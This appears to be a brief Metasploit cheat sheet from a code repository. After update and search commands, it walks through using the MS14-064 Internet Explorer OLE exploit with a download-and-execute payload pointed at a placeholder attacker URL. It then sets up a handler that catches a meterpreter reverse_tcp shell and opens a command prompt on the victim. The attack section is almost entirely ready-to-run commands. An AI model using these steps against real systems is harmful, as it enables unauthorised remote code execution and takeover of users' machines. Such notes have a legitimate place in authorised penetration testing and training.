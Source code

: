 # Metasploit memos
## Single
  - Update
    ~~~
    msfupdate
    # msfupdate -> will be not supported
    git fetch
    ~~~
  
  - Search
    ~~~
    msf> search cve:2014 type:exploit app:client
    ~~~

  - Use attack module(sample)
    - Base
      ~~~
      ## terminal 1(setting malware)
      msf> use exploit/windows/browser/ms14_064_ole_code_execution
      msf exploit(ms14_064_ole_code_execution)> show options
      msf exploit(ms14_064_ole_code_execution)> set SRVHOST [Attacker IP address]
      msf exploit(ms14_064_ole_code_execution)> set SRVPORT [Attacker Port]
      msf exploit(ms14_064_ole_code_execution)> set URIPATH /ie
      # Set Payload
      msf exploit(ms14_064_ole_code_execution)> set PAYLOAD windows/download_exec
      # Configuration
      msf exploit(ms14_064_ole_code_execution)> set show options
      msf exploit(ms14_064_ole_code_execution)> set URL http://[attacker IP]:[attacker port]/[filename].exe
      msf exploit(ms14_064_ole_code_execution)> set EXE [filename].exe
      # Running
      msf exploit(ms14_064_ole_code_execution)> exploit
      
      ## terminal 2(handler)
      msf> use exploit/multi/handler
      msf exploit(handler)> set PAYLOAD windows/meterpreter/reverse_tcp
      msf exploit(handler)> set LHOST [Attacker IP address]
      msf exploit(handler)> set LPORT [Attacker Port]
      msf exploit(handler)> exploit
      # connected from malware
      # show target information
      meterpreter> sysinfo
      # get CommandLine
      meterpreter> shell
      ...
      C:\[path]> 
      ~~~
    